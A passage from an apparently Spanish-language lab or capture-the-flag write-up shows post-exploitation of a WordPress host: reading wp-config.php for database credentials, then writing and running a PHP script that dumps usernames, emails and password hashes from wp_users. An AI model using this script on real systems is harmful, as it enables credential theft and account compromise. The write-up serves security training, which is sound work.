 <pre><code>
hostname - I
  cd ..
 cat wp-config.php
     
</code></pre>
<p>Nos muestar informacion interesante.</p>
<img src="https://github.com/xKoutax/xkoutax/blob/master/assets/images/Captura%20de%20pantalla%202025-02-28%20161445.png?raw=true" alt="Captura de pantalla">
 <p>Debemos ejecutar el siguiente scripts para que nos genere las credenciales.</p>
<pre><code>
 echo "<?php
 \$host = '172.17.0.1';
 \$username = 'wp_user';
 \$password = 'wp_password';
 \$database = 'wordpress';
 \$mysqli = new mysqli(\$host, \$username, \$password, \$database);
 if (\$mysqli->connect_error) {
 die('Connection failed: ' . \$mysqli->connect_error);
 }
 \$query = 'SELECT * FROM wp_users';
 \$result = \$mysqli->query(\$query);
 if (\$result && \$result->num_rows > 0) {
 while (\$row = \$result->fetch_assoc()) {
 echo 'ID: ' . \$row['ID'] . \"\\n\";
 echo 'Username: ' . \$row['user_login'] . \"\\n\";
 echo 'Email: ' . \$row['user_email'] . \"\\n\";
 echo 'Display Name: ' . \$row['display_name'] . \"\\n\";
 echo 'Password Hash: ' . \$row['user_pass'] . \"\\n\";
 echo \"-----------------------------------\\n\";
 }
 } else {
 echo 'No users found or query failed.' . \"\\n\";
 }
 \$mysqli->close();
 ?>" > test2.php
para que corra el progama 
php test2.php
 </code></pre>